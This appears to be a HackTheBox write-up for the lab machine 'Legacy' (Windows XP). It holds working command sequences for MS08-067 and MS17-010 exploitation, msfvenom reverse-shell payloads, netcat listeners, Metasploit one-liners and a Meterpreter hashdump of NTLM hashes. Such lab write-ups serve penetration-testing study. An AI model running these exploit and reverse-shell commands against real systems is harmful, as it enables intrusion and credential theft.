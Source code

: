 ```yaml
---
title: Legacy Writeup
date: 2021-12-27
categories: [Writeup, HackTheBox]
tags: hackthebox, OSCP, WriteUp, Windows, windowsxp, eternalblue, MS08-067, MS17-010, TJNULLs List
image:
  src: /assets/Images-01-Legacy/Legacy-infocard.png
  width: 497px    # 697 in pixels
  height: 317px   # 517 in pixels
  alt: image alternative text
---
```


> In this writeup I have pwned Legacy from hackthebox in all possible ways using manual exploits and metasploit.


### Enumeration
#### rustscan
```bash
rustscan --accessible -a 10.129.178.214 -- -Pn -p-
```
![](/assets/Images-01-Legacy/2021-12-29-13-18-11.png)
_rustscan results_

#### nmap
```
sudo nmap -Pn -A -O -p 139,445 10.129.178.214 | tee nmap.log
```
![](/assets/Images-01-Legacy/2021-12-29-13-39-30.png)
_nmap results_

```bash
sudo nmap -Pn --script=smb-vuln* -p 139,445 10.129.178.214 | tee nmap-vulns.log
```
![](/assets/Images-01-Legacy/2021-12-29-13-53-30.png)
_nmap vulnerablity scan results_

Target running 
- OS : Windows XP SP2 or Later.
- SMB Service with disabled message signing.

This can lead to exploitation using eternal blue exploit on outdated OS with vulnerable state of service.

nmap vulnerablity script scan gave confirmation target is vulnerable to 
- CVE-2008-4250 : Microsoft Windows system vulnerable to remote code execution (MS08-067)
- CVE-2017-0143 : Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

#### smbclient

```
smbclient -NL 10.129.178.214
smbmap -H 10.129.178.214
```
**`smbmap`** and **`smbclient`** confirmed no shares are accessible.

---

### Exploitation

#### MS08-067

For exploiting the target using MS08-067 we can use the following exploit from github. [MS08-067](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

```
wget "https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py"
```

This exploit have dependencies of python library `pycryptodomex / pycryptodome` which was previously known as `pycrypto`.

Installing `impacket` in python virtual environment will fulfill the minimum requirement to execute exploit.

```
virtualenv -p /usr/bin/python venv
source venv/bin/activate

git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip install .

# cd back to exploit location.
```
![](/assets/Images-01-Legacy/2021-12-29-14-19-08.png)

Now we can test if exploit is usable using simple run.
```
python ms08-067.py
```
This will give usage example to run this exploit.
![](/assets/Images-01-Legacy/2021-12-29-14-20-10.png)

This exploit also requires shellcode to get a reverse shell. 
We can generate shell code using following
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
![](/assets/Images-01-Legacy/2021-12-29-14-22-21.png)

We have to copy this generated shellcode and put it in exploit at line 53.

We have to remove the existing shell code and put out shellcode in `shellcode()` function.

![](/assets/Images-01-Legacy/2021-12-29-14-24-04.png)

Now we are ready to execute exploit script using the following command.

```
rlwrap nc -lvnp 1337 # setting up listener

python ms08-067.py 10.129.178.214 6 445
```

> Note : We are selecting 6 because target is running Windows XP SP3 which was found in nmap enumeration. In case of other language of XP or other varient of OS. Enumeration and hit n trial will be required.

**And finally we get a shell.**
![](/assets/Images-01-Legacy/2021-12-29-14-30-47.png)

---

#### MS17-010

For exploiting the target using MS17-010 we can use the following exploit from github. [MS17-010](https://github.com/helviojunior/MS17-010)

```
git clone https://github.com/helviojunior/MS17-010.git
cd MS17-010/
python checker.py 10.129.178.214
```
The `checker.py` script also confirms this is vulnerable to MS17-010.

![](/assets/Images-01-Legacy/2021-12-29-14-37-03.png)

This exploit requires malicious executable to get a reverse shell. We will create it using following commands in the same location of exploit.
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > eternalblue.exe
```

And run the exploit after setting up ncat listener.

```
rlwrap nc -lvnp 1337

# python send_and_execute.py TARGET_IP eternalblue.exe
python send_and_execute.py 10.129.178.214 eternalblue.exe
```

**And finally we get a shell.**
![](/assets/Images-01-Legacy/2021-12-29-14-44-43.png)

---

#### Metasploit | MS17-010

With below one liner we can exploit target with Metasploit MS17-010 module and get meterpreter shell.
```
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; set RHOSTS 10.129.178.214; run;"
```
![](/assets/Images-01-Legacy/2021-12-29-15-04-07.png)


#### Metasploit | MS08-067

```
msfconsole -q -x "use exploit/windows/smb/ms08_067_netapi; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 5555; set RHOSTS 10.129.178.214; run;"
```
![](/assets/Images-01-Legacy/2021-12-29-15-07-49.png)

---

### Post Exploitation
This system didn't had whoami to check the privileges.

#### nc TCP Reverse Shell 

Using SMB Server and executing we got to know we have highest privilege in system.

```
# in attacker machine
sudo smbserver.py a /usr/share/windows-resources/binaries/ 

# in target machine
\\10.10.17.81\a\whoami.exe
```

![](/assets/Images-01-Legacy/2021-12-29-15-26-32.png)

#### Meterpreter

Using `getuid` we got current user. 
And using `hashdump` following hashes were collected.
```hash
Administrator:500:b47234f31e261b47587db580d0d5f393:b1e8bd81ee9a6679befb976c0b9b6827:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:0ca071c2a387b648559a926bfe39f8d7:332e3bd65dbe0af563383faff76c6dc5:::
john:1003:dc6e5a1d0d4929c2969213afe9351474:54ee9a60735ab539438797574a9487ad:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:f2b8398cafc7174be746a74a3a7a3823:::
```

![](/assets/Images-01-Legacy/2021-12-29-15-33-30.png)

---

### Recommendation

SMB was enabled on outdated un-supported Winodws XP and SMB message signing was disabled. And running with privileges of Administrator.

> Update to latest supported version of Windows. 
> Advise not to run SMB service with disabled message signing as Administrator.

---

### Key Learning
In this pentest, with easiest enumeration we got to know target is vulnerable to eternal blue. And there are a lot of exploits available for this on github and other resources.

Going forward keeping a fork of working exploit with instructions to run it will help saving a a lot time in pentest period.

Outdated exploits like Eternal blue have dependency issues because of older version of python libraries. 

To save trouble it would be good idea to get libraries in virtual environment and run the exploit.

---